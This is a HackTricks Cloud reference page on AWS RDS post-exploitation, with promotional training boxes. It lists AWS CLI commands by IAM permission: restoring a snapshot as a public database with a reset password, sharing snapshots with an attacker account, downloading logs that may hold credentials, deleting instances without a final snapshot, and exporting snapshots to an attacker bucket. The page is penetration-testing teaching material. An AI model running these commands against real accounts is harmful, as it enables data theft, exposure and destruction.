 # AWS - RDS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS

For more information check:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

If the attacker has enough permissions, he could make a **DB publicly accessible** by creating a snapshot of the DB, and then a publicly accessible DB from the snapshot.

```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
    --db-instance-identifier <db-id> \
    --db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
    --db-instance-identifier "new-db-not-malicious" \
    --db-snapshot-identifier <scapshotId> \
    --db-subnet-group-name <db subnet group> \
    --publicly-accessible \
    --vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
    --db-instance-identifier "new-db-not-malicious" \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# Connect to the new DB after a few mins
```

### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

An attacker with these permissions could **create an snapshot of a DB** and make it **publicly** **available**. Then, he could just create in his own account a DB from that snapshot.

If the attacker **doesn't have the `rds:CreateDBSnapshot`**, he still could make **other** created snapshots **public**.

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

An attacker with the `rds:DownloadDBLogFilePortion` permission can **download portions of an RDS instance's log files**. If sensitive data or access credentials are accidentally logged, the attacker could potentially use this information to escalate their privileges or perform unauthorized actions.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**Potential Impact**: Access to sensitive information or unauthorized actions using leaked credentials.

### `rds:DeleteDBInstance`

An attacker with these permissions can **DoS existing RDS instances**.

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**Potential impact**: Deletion of existing RDS instances, and potential loss of data.

### `rds:StartExportTask`

{% hint style="info" %}
TODO: Test
{% endhint %}

An attacker with this permission can **export an RDS instance snapshot to an S3 bucket**. If the attacker has control over the destination S3 bucket, they can potentially access sensitive data within the exported snapshot.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**Potential impact**: Access to sensitive data in the exported snapshot.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
